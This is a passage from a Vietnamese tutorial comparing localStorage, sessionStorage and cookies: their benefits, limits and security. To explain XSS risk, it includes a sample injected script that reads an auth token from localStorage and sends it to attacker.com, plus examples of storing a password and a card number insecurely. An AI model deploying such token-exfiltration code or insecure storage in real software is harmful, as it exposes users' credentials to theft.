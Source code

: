 - **Tự động gửi đến server**: Tiện cho authentication
- **Server-side access**: Server có thể đọc và set cookies
- **Expires control**: Có thể đặt thời gian hết hạn chính xác
- **Secure + HttpOnly**: Tăng cường bảo mật
- **Cross-subdomain**: Có thể share giữa subdomains
- **SameSite attribute**: Bảo vệ khỏi CSRF

### 4.7. Nhược điểm của Cookies

- **Dung lượng nhỏ**: Chỉ 4KB per cookie
- **Tăng bandwidth**: Gửi kèm mọi request (kể cả images, CSS, JS)
- **Giới hạn số lượng**: Khoảng 20-50 cookies per domain
- **API phức tạp**: Khó sử dụng hơn localStorage/sessionStorage
- **Privacy concerns**: Dễ bị theo dõi

## 5. So sánh chi tiết localStorage, sessionStorage và Cookies

### 5.1. Bảng so sánh tổng quan

| Đặc điểm | localStorage | sessionStorage | Cookies |
|----------|-------------|----------------|---------|
| **Dung lượng** | 5-10MB | 5-10MB | 4KB |
| **Thời gian tồn tại** | Vĩnh viễn | Đến khi đóng tab | Có thể set expires |
| **Phạm vi** | Same origin, all tabs | Same origin, per tab | Same domain (config được) |
| **Gửi đến server** | Không | Không | Tự động |
| **API** | Đơn giản | Đơn giản | Phức tạp |
| **Bảo mật** | Kém (XSS) | Kém (XSS) | Tốt hơn (HttpOnly, Secure) |
| **Performance** | Synchronous | Synchronous | Synchronous |
| **Browser support** | Modern browsers | Modern browsers | All browsers |

### 5.2. So sánh về Bảo mật

#### localStorage & sessionStorage
```javascript
// Dễ bị XSS attack
// Hacker có thể inject script và đánh cắp dữ liệu
<script>
  // Malicious script
  const token = localStorage.getItem('authToken');
  fetch('https://attacker.com/steal?token=' + token);
</script>

// ❌ KHÔNG BAO GIỜ lưu sensitive data
localStorage.setItem('password', '123456'); // NGUY HIỂM!
localStorage.setItem('creditCard', '1234-5678-9012-3456'); // NGUY HIỂM!
```
